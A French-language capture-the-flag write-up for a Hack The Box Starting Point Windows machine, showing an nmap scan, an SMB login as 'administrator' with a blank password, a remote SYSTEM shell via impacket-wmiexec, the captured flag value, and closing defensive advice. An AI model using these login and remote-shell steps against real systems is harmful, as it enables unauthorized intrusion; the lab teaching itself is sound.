




> Plateforme : **Hack The Box** — Starting Point (Tier 1)

## Informations

- **Catégorie :** Windows / SMB (identifiant administrateur faible)
- **Difficulté :** Very Easy
- **Auteur du write-up :** 3ch0
- **Services :** `135/tcp` (MSRPC), `139/tcp` (NetBIOS-SSN), `445/tcp` (SMB)
- **Flag :** `f751c19eda8f61ce81827e6930a1f40c`

---

## 1. Reconnaissance

```bash
nmap -sC -sV 10.129.8.162
```

```text
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds
Service Info: OS: Windows
| smb2-security-mode: Message signing enabled but not required
```

Machine **Windows** exposant uniquement la pile **SMB/RPC**. Pas de service web, pas de WinRM : le seul vecteur possible est l'**authentification SMB**.



---

## 2. Test d'identifiants par défaut

La session anonyme (null) est refusée (`NT_STATUS_ACCESS_DENIED`). Sur une machine Windows, le compte intégré **`Administrator`** existe toujours — on tente avec un **mot de passe vide** :

```bash
smbclient -L //10.129.8.162/ --user=administrator
# (mot de passe : vide)
```

```text
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

L'accès à **`ADMIN$`** et **`C$`** (partages administratifs) confirme que `administrator` a un **mot de passe vide** → on dispose d'un compte **administrateur local**.



---

## 3. Shell distant via Impacket (wmiexec)

Lister des fichiers ne suffit pas : avec des creds admin, on prend un **shell**. `wmiexec` exécute des commandes via **WMI/DCOM** (port 135) et récupère la sortie via **SMB** (445) :

```bash
impacket-wmiexec administrator@10.129.8.162
# (mot de passe : vide)
```

```text
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell
C:\>whoami
nt authority\system
```



> Note : `wmiexec` ouvre un **cmd.exe**, pas un shell Unix → les commandes sont `dir`, `type`, `cd`.

---

## 4. Flag

```batch
C:\> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> type flag.txt
```

```text
f751c19eda8f61ce81827e6930a1f40c
```

**Flag :** `f751c19eda8f61ce81827e6930a1f40c`



---

## Récapitulatif

1. **nmap** → machine Windows, SMB/RPC (135, 139, 445) uniquement.
2. Session null refusée, mais **`administrator`** + mot de passe **vide** → accès aux partages administratifs.
3. **`impacket-wmiexec`** avec ces creds → shell `cmd` sur la cible (WMI/DCOM + SMB).
4. `type` du flag sur le Bureau de l'Administrateur.

> **Concept clé :** la box illustre la faute la plus basique mais encore répandue sur Windows — un **compte administrateur sans mot de passe** (ou mot de passe trivial). Dès qu'un compte à privilèges est accessible en SMB, l'attaquant ne se contente pas de lire des fichiers : il obtient une **exécution de commandes à distance** via la boîte à outils **Impacket**, qui ré-implémente les protocoles Windows (SMB, WMI/DCOM, RPC) sous Linux. Le choix de l'outil dépend des ports ouverts : `wmiexec` (135 + 445), `psexec`/`smbexec` (445 seul), `evil-winrm` (5985/5986) — tous donnent un shell authentifié, par des canaux différents. Défense : interdire les mots de passe vides (stratégie de groupe), désactiver ou renommer le compte Administrator intégré, restreindre l'accès SMB/RPC par pare-feu, et exiger la signature SMB.

---

***— 3ch0***
